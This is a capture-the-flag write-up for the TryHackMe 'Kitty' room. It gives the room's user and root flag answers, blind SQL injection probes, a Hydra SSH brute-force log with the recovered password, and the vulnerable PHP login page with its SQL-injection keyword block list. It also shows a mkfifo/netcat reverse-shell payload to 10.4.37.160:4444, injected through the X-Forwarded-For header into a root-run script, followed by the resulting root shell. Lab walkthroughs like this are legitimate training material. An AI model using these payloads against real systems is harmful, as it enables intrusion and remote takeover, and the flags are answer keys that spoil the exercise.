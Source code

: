 # Kitty

## Task 1  What is the user and root flag?
+ What is the user flag? `THM{31e606998972c3c6baae67bab463b16a}`
+ What is the root flag? `THM{581bfc26b53f2e167a05613eecf039bb}`
## Task 2  Thank you
+ Thank you for playing. `No Answer Needed`

### Enumeration
+ Try to signup with user `kitty` and we got error `This username is already taken.`
+ Try SQLinjection on Login 
    - Query Database `kitty' and substring(database(),1,1)='a' -- -`
    - Query Table `kitty' and substring((select table_name from information_schema.tables where table_schema="db_name" limit 0,1),1,1) -- -`


+ Try generate the file for hydra and run hydra
```bash
hengkisirait: Kitty $ hydra -l kitty -P pass.txt 10.10.131.226 ssh -fV
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-05 16:34:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:1/p:14), ~1 try per task
[DATA] attacking ssh://10.10.131.226:22/-fV
[22][ssh] host: 10.10.131.226   login: kitty   password: L0ng_Liv3_KittY
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-05 16:34:46
hengkisirait: Kitty $ ssh kitty@10.10.131.226
kitty@kitty:~$ ls
user.txt
kitty@kitty:~$ cat user.txt
THM{31e606998972c3c6baae67bab463b16a}
kitty@kitty:~$
```

### Privelege Escalation
+ Upload linpeas and have an active port `8080`
+ found weird file 
```bash
kitty@kitty:~$ cat /opt/log_checker.sh
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

+ Check on `index.php` on development site 
```bash
kitty@kitty:/var/www/development$ cat index.php
<?php
// Initialize the session
session_start();

// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
	if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	}
}


$sql = "select * from siteusers where username = '$username' and password = '$password';";
$result = mysqli_query($mysqli, $sql);
$row = mysqli_fetch_array($result, MYSQLI_ASSOC);
$count = mysqli_num_rows($result);
if($count == 1){
	// Password is correct, so start a new session
	session_start();

	// Store data in session variables
	$_SESSION["loggedin"] = true;
	$_SESSION["username"] = $username;
	// Redirect user to welcome page
	header("location: welcome.php");
} elseif ($username == ""){
	$login_err = "";
} else{
	// Password is not valid, display a generic error message
	$login_err = "Invalid username or password";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Development User Login</h2>
        <p>Please fill in your credentials to login.</p>

<?php
if(!empty($login_err)){
        echo '<div class="alert alert-danger">' . $login_err . '</div>';
}
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control">
            </div>
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
	    </div>
	    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
        </form>
    </div>
</body>
</html>
```

+ So we need to TUNNELING the local PORT (8080) `ssh -L 8080:127.0.0.1:8080 kitty@10.10.131.226`

```bash
kitty@kitty:/var/www/development$ tail -f logged
$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.4.37.160 4444 >/tmp/f)
```



+ Generate new python request exploit the `X-Forwaded-For: payload`
```bash
hengkisirait: ~ $ nc -l 4444
id
bash: cannot set terminal process group (4244): Inappropriate ioctl for device
bash: no job control in this shell
root@kitty:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kitty:~# cd /root
cd /root/
root@kitty:~# ls
ls
logged
root.txt
snap
root@kitty:~# cat root.txt
cat root.txt
THM{581bfc26b53f2e167a05613eecf039bb}
```